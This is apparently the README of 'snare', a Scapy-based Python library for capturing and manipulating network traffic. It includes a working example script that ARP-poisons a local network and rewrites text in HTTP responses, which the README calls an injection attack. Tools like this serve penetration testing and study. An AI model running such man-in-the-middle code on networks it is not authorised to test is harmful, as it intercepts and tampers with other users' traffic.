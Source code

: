 snare
=====
**Capture and manipulate traffic off the network**

Snare provides a Sniffer class and a few "modules" which can be assembled to form attack tools.
These classes are based on Scapy and provide a convenient way to interact with and compose tools from it's functionality.

The advanced functions such as ARP poisoning, packet forwarding, and analysis are decomposed into modules to allow
for greater flexibility and flexibility. Look at the constructed strategies for examples of how to compose the modules.

Example
-------

Suppose you hate the string "search" and you want to MitM your local network, replacing all instances of the word in HTTP responses with the word "replace". Well the following script will do that for you!

.. code-block:: python

   import scapy.all as scapy
   import snare

   # Hello
   @snare.tcpfilter
   def inject(pkt):
     if all(layer in pkt for layer in (scapy.IP, scapy.TCP)):
         if scapy.Raw in pkt and pkt[scapy.TCP].sport == 80:

             s = b"search"
             r = b"replacement"

             raw = pkt[scapy.Raw]
             if s in raw.load:
                 raw.load = raw.load.replace(s, r)
                 print(pkt.show())
     return pkt

   sniffer = snare.Sniffer(
       iface="eth0",
       modules=[snare.ArpMitmModule(filter=inject)]
   )
   sniffer.start()
   input("Starting injection attack. Press enter to quit.")
   sniffer.stop()

Development
-----------

Testing
~~~~~~~

Tests are written in `pytest` and can be run with the `pytest` command.

.. note::
   Testing is pretty spare at the momment. In order to really test things, a testing framework that
   can feed in pcap files and evaluate the repsonse is required.

Documentation
~~~~~~~~~~~~~

Documentation can be built with Sphinx from the docs folder by running `make html`, or another target.
